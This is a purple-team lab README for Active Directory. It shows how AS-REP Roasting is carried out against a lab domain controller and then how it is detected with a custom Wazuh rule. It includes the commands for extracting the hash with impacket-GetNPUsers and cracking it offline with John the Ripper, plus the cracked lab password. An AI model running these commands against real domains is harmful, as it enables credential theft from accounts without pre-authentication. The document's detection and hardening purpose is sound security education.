





# Scenario 03 — AS-REP Roasting Attack & Purple Team Detection


## Overview

This scenario demonstrates the execution and detection of an **AS-REP Roasting** attack within the enterprise Active Directory environment hosted on VMware ESXi.

AS-REP Roasting targets user accounts that have **Kerberos pre-authentication disabled** (`DONT_REQ_PREAUTH`). An attacker can request a TGT for any vulnerable user and crack the password hash **offline** without any authentication.

---

## Lab Environment

| Role | Machine | IP | VLAN |
|---|---|---|---|
| Attacker | Kali Linux | 10.10.10.10 | VLAN10 |
| Target (DC) | Windows Server 2022 — SRV-DC-01 | 10.10.20.10 | VLAN20 |
| SIEM | Ubuntu — Wazuh XDR | 10.10.30.10 | VLAN30 |

**Vulnerable account:** `backup-admin` (`DONT_REQ_PREAUTH` enabled)



---

## 🔴 Phase 1 — Red Team (Offensive Operations)

### Step 1 — AS-REP Hash Extraction

Using Impacket's `GetNPUsers`, the Domain Controller was queried to extract the AS-REP hash for the vulnerable account **without providing any password**.

```bash
impacket-GetNPUsers cyberlab.4real/backup-admin \
  -dc-ip 10.10.20.10 \
  -no-pass \
  -format hashcat \
  -outputfile asrep_hash.txt
```

**Result:** AS-REP hash successfully extracted.



---

### Step 2 — Offline Password Cracking

**First attempt with Hashcat** — OpenCL memory mapping error in the virtualized environment:

```
* Device #1: Not enough allocatable device memory or free host memory for mapping.
```

**Pivot to John the Ripper** — CPU-based cracking, bypasses virtualization limitations:

```bash
john -w=/usr/share/wordlists/rockyou.txt asrep_hash.txt
```

**Result:** hash cracked in **25 seconds**.

```
backup-admin: Backup2026!
```



---

## 🔵 Phase 2 — Blue Team (Detection Engineering)

### Step 1 — Enable Kerberos Audit Policy on the DC

By default, Windows Server does not log Kerberos TGT requests. Enable via GPO:

```
Computer Configuration
  └── Policies
      └── Windows Settings
          └── Security Settings
              └── Advanced Audit Policy Configuration
                  └── Account Logon
                      └── Audit Kerberos Authentication Service → Success & Failure
```

Apply the policy:

```powershell
gpupdate /force
```

---

### Step 2 — Custom Wazuh Detection Rule

Event ID `4768` with `preAuthType: 0` indicates an AS-REP Roasting attempt. This custom rule was added to `local_rules.xml`:

```xml
<group name="windows, security, active_directory,">
  <!-- AS-REP Roasting Detection (Event ID 4768 without Pre-authentication) -->
  <rule id="100005" level="8">
    <if_sid>60103</if_sid>
    <field name="win.system.eventID">^4768$</field>
    <field name="win.eventdata.preAuthType">^0$</field>
    <description>
      CyberRange Alert: Possible AS-REP Roasting Attack Against Account: $(win.eventdata.targetUserName)
    </description>
    <mitre>
      <id>T1558.004</id>
    </mitre>
  </rule>
</group>
```



Restart the Wazuh manager:

```bash
docker compose restart wazuh.manager
```

---

### Step 3 — Alert Validation

After re-executing the attack, Wazuh successfully:
- Captured **Event ID 4768**
- Mapped it to **MITRE ATT&CK T1558.004**
- Generated a **Level 8 (High)** alert



---

## 🛡️ Mitigation & Hardening

| Action | Description |
|---|---|
| Disable `DONT_REQ_PREAUTH` | Review all AD accounts — uncheck "Do not require Kerberos preauthentication" |
| Account Auditing | Use BloodHound or PowerShell to find all accounts with the flag active |
| Strong Password Policy | Enforce long, complex passphrases to resist offline cracking |

**PowerShell — find all vulnerable accounts:**

```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth
```

**PowerShell — fix all vulnerable accounts:**

```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} |
Set-ADAccountControl -DoesNotRequirePreAuth $false
```

---

## MITRE ATT&CK Mapping

| Field | Value |
|---|---|
| Technique | AS-REP Roasting |
| ID | T1558.004 |
| Tactic | Credential Access |
| Platform | Windows Active Directory |

---

## Screenshots

| File | Description |
|---|---|
| `asrep_preauth_flag_enabled.png` | Active Directory — `DONT_REQ_PREAUTH` flag checked on the vulnerable account |
| `asrep_hash_extraction.png` | `GetNPUsers` output — hash extracted |
| `john_asrep_crack_success.png` | John the Ripper — password cracked |
| `wazuh_asrep_custom_rule.png` | Custom Wazuh rule `100005` configured |
| `wazuh_asrep_roasting_alert_success.png` | Wazuh Level 8 alert triggered |

---

## Related Scenarios

| Scenario | Link |
|---|---|
| Scenario 02 — Kerberoasting | [README](../02-ad-attacks/README.md) |
| Scenario 04 — Pass-the-Hash | [README](../04-pass-the-hash/README.md) |

---

*Part of the [CyberRange-ESXi](https://github.com/Kg4REAL/CyberRange-ESXi) Purple Team Lab*
